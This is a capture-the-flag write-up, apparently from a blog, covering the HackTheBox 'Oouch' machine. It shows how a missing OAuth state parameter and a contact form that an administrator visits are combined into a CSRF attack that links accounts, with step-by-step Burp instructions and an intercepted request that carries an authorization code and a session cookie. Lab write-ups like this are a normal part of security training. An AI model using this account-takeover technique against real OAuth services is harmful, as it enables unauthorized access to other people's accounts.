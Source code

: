 Now that we know the client (`consumer.oouch.htb:5000`) doesn't use the `state` parameter, it's susceptible to OAuth CSRF attack. But, in order to launch the attack, we need to ensure that CSRF exists.

Check out the `/contact` page in the client.


{% include image.html image_alt="34d89d0d.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/34d89d0d.png" %}

We can send message to the system administrator, yo! Here, I'm sending a simple link to my assigned HTB IP address.

{% include image.html image_alt="d7cc12f0.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/d7cc12f0.png" %}

On my machine I have a Apache web server running.

{% include image.html image_alt="5ce4599c.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/5ce4599c.png" %}

CSRF verified! Now it's time to launch the attack.

1. Set up a dummy account in `consumer.oouch.htb:5000/register` with your browser

2. Set up a Oouch account in `authorization.oouth.htb:8000/signup` with your browser

3. Set up Burp to intercept requests.

4. Enter `consumer.oouch.htb:5000/oauth/connect` in the address bar to connect my Oouch account to the system administrator's account in `consumer.oouch.htb:5000`


{% include image.html image_alt="2862f8d1.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/2862f8d1.png" %}

Click on the **Authorize** button.


5. Forward the POST request and intercept the next GET request.


```
GET /oauth/login/token?code=yF6QqlBzYbnAhJK9dxJre2Csb43YuZ HTTP/1.1
Host: consumer.oouch.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
DNT: 1
Connection: close
Cookie: session=.eJwlT0FuAyEM_AriHFWAMdh5Re5VFBkwyarbpFo2pyh_L1V9sUczGs-87KWvMm467PHzZc0-l_3WMeSq9mBPq8pQsz6uZrmb_WGk1kma_bYM8zM1H_b8Ph-myabjZo_79tSJlmaPlhJT5tBb65JhjhfmTBlTIg8YQQWjNpi38zEAxEIC2aOnLLnXgMFRQQLXg6vMGhVJtHYl1zwUiA2wcMOYqvPFqbByS3V-iTlHmfHr2Pplf3zpfebJucXqtGAnl6B4IS2ViTHkVIrDxK36Vv5qP4du_yWCff8Cv25U0A.XmwzJw.B2-sicm9PxVGSJC9Ae-lwIEjU60
Upgrade-Insecure-Requests: 1
```
